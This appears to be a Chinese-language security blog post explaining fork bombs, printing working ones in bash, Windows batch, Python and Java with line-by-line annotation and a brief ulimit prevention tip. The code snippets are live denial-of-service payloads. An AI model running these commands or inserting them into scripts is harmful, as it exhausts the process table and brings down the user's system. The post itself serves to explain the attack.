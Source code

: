 ```yaml
---
title: Fork Bomb
date: 2017-02-04 10:36:52
comments: true
tags: 系统安全
categories: 系统安全
---
```

　　Fork炸弹（fork bomb）在计算机领域中是一种利用系统调用fork（或其他等效的方式）进行的拒绝服务攻击。fork炸弹以极快的速度创建大量进程（进程数呈以2为底数的指数增长趋势），并以此消耗系统分配予进程的可用空间使进程表饱和，而系统在进程表饱和后就无法运行新程序，除非进程表中的某一进程终止，它可以利用在windows/linux等系统。

#### linux系统

##### Code
```bash
:(){ :|:& };:
```

##### 注解
:()　# 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码 
{　　# ":"函數起始字元     
:　　# 用递归方式调用":"函数本身     
|　　# 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）     
:　　# 另一次递归调用的":"函数 # 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝     
&　　# 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行 
}　　# ":"函數終止字元 
;　　# ":"函数定义结束后将要进行的操作... 
:　　# 调用":"函数,"引爆"fork炸弹



#### Windows系统(创建一个.bat，写入以下命令运行即可)

##### Code
```bash
%0|%0|%0
```
##### 注释
%0就是输出自己本身,也就是.bat，在cmd中即表示运行.bat
|%0就是打开自身后的程序再打开.bat
3的指数倍

##### 预防
一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以通过ulimit这个指令达到相应的效果。


#### 编程语言应用

Using Python:

```bash
import os
while 1:
    os.fork()
```

Using Java:

```bash
public class ForkBomb
{
  public static void main(String[] args)
  {
    while(true)
    {
      Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
    }
  }
}
```

官方参考链接：[https://en.wikipedia.org/wiki/Fork_bomb](https://en.wikipedia.org/wiki/Fork_bomb)

